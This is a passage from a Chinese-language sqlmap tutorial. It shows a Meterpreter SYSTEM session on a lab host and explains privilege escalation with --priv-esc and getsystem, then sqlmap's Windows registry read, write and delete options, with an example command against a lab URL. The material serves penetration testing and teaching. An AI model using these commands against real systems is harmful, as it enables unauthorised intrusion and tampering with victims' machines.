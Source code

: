 ```
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter > exit

[*] Meterpreter session 1 closed.  Reason: User exit
```
在windows系统中MySQL默认以SYSTEM身份运行，但PostgreSQL无论是在Windows还是在Linux中都以低权限的用户postgres运行。SQL Server 2000默认以SYSTEM身份运行，但SQL Server 2005到2008大多数时间以NETWORK SERVICE身份运行，少数时候以LOCAL SERVICE身份运行。

可以使用参数`--priv-esc`来运行Metasploit的`getsystem command`命令来提升权限。

### 3.14 对Windows注册表操作

当后端数据库管理系统是MySQL，PostgreSQL或Microsoft SQL Server，以及Web应用程序支持堆查询，并且会话用户具有访问它所需的权限时，sqlmap可以访问Windows注册表。

#### **3.14.1 读Windows注册表键值**
> 开关 --reg-read

#### **3.14.2 写Windows注册表键值**
> 开关 --reg-add

#### **3.14.3 删除Windows注册表键值**
> 开关 --reg-del

#### **3.14.4 注册表辅助选项**
> 参数 --reg-key，--reg-value，--reg-data和--reg-type

这些参数是为了辅助上述三个操作，使用辅助参数可以直接在命令里添加windows注册表键值，而不用在sqlmap运行时以提问的方式给出。

`--reg-key`用于指定使用的Windows注册表键名路径，`--reg-value`指定windows注册表的键，`--reg-data`用于指定键的值，`--reg-type`用于指定键的值的类型。

例如：
```
python sqlmap.py -u http://192.168.136.129/sqlmap/pgsql/get_int.aspx?id=1 --reg-add --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1
```
